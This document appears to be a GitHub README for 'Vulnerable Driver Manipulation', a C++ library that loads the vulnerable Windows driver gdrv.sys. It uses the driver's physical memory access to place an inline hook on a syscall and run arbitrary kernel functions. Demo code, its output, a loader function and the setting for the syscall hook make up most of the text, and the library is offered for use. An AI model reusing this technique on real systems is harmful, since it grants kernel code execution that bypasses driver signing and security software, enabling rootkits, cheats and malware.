 <div align="center">
    <div>
        <img src="https://githacks.org/xerox/vdm/-/raw/467698a1d756a21f5bc4da942a36f980fc895cc6/img/7ipSZRN.png"/>
    </div>
    <img src="https://githacks.org/xerox/vdm/-/raw/467698a1d756a21f5bc4da942a36f980fc895cc6/img/Windows%2010-supported-green.svg"/>
    <img src="https://githacks.org/xerox/vdm/-/raw/467698a1d756a21f5bc4da942a36f980fc895cc6/img/Windows%207-supported-green.svg"/>
</div>

# Vulnerable Driver Manipulation

A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys. This is basiclly what physmeme was about but that project is not truly "physical read and write" 
whereas this project is. This project can be used more broadly then physmeme.

# Example

In this example VDM syscalls into an inline hook placed on `ntoskrnl.NtShutdownSystem` to call memcpy exported from ntoskrnl.exe. The original bytes are restored
directly after the syscall returns.

#### Demo Code
```cpp
// read physical memory using the driver...
vdm::read_phys_t _read_phys =
	[&](void* addr, void* buffer, std::size_t size) -> bool
{
	return vdm::read_phys(addr, buffer, size);
};

// write physical memory using the driver...
vdm::write_phys_t _write_phys =
	[&](void* addr, void* buffer, std::size_t size) -> bool
{
	return vdm::write_phys(addr, buffer, size);
};

vdm::vdm_ctx vdm(_read_phys, _write_phys);
const auto ntoskrnl_base =
	reinterpret_cast<void*>(
		util::get_kmodule_base("ntoskrnl.exe"));

const auto ntoskrnl_memcpy =
	util::get_kmodule_export("ntoskrnl.exe", "memcpy");

std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
std::printf("[+] %s page offset -> 0x%x\n", vdm::syscall_hook.first, vdm::nt_page_offset);
std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

short mz_bytes = 0;
vdm.syscall<decltype(&memcpy)>(
	ntoskrnl_memcpy,
	&mz_bytes,
	ntoskrnl_base,
	sizeof mz_bytes
);

std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```

#### Demo Code Result
```
[+] drv_handle -> 0x100, drv_key -> frAQBc8Wsa1xVPfv
[+] NtShutdownSystem physical address -> 0x0000000002D0B1A0
[+] NtShutdownSystem page offset -> 0x1a0
[+] ntoskrnl base address -> 0xFFFFF80456400000
[+] ntoskrnl memcpy address -> 0xFFFFF804565D5A80
[+] kernel MZ -> 0x5a4d
[+] press any key to close...
```

# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. You can also change which syscall you want to 
hook by changing this variable inside of `vdm_ctx/vdm_ctx.h`.

```cpp
// change this to whatever you want :^)
constexpr std::pair<const char*, const char*> syscall_hook = { "NtShutdownSystem`", "ntdll.dll" };
```

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```